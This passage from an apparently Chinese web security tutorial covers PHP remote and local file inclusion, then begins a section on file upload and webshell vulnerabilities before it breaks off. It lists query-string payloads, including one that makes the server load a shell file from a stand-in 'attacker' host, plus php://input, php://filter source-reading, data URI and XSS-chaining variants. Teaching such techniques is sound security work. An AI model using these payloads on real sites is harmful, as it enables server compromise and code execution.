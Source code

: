 构造变量 `basePath` 的值。

```
/?basePath=http://attacker/phpshell.txt?
```

最终的代码执行了

```php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

- 普通远程文件包含

  ```
  ?file=[http|https|ftp]://example.com/shell.txt
  ```

  需要 `allow_url_fopen=On` 并且 `allow_url_include=On` 。

- 利用 PHP 流 input

  ```
  ?file=php://input
  ```

  需要 `allow_url_include=On` 。

- 利用 PHP 流 filter

  ```
  ?file=php://filter/convert.base64-encode/resource=index.php
  ```

  需要 `allow_url_include=On` 。

- 利用 data URIs

  ```
  ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
  ```

  需要 `allow_url_include=On` 。

- 利用 XSS 执行

  ```
  ?file=http://127.0.0.1/path/xss.php?xss=phpcode
  ```

  需要 `allow_url_fopen=On`，`allow_url_include=On` 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。

## 文件上传

文件上传漏洞是指用户上传了一个可执行脚本文件，并通过此文件获得了执行服器端命令的能力。在大多数情况下，文件上传漏洞一般是指上传 WEB 脚本能够被服务器解析的问题，也就是所谓的 webshell 问题。完成这一攻击需要这样几个条件，一是上传的文件能够这 WEB 容器执行，其次用户能从 WEB 上访问这个文件，最后，如果上传的文件被安全检查、格式化、图片压缩等功能改变了内容，则可能导致攻击失败。

### 绕过上传检查
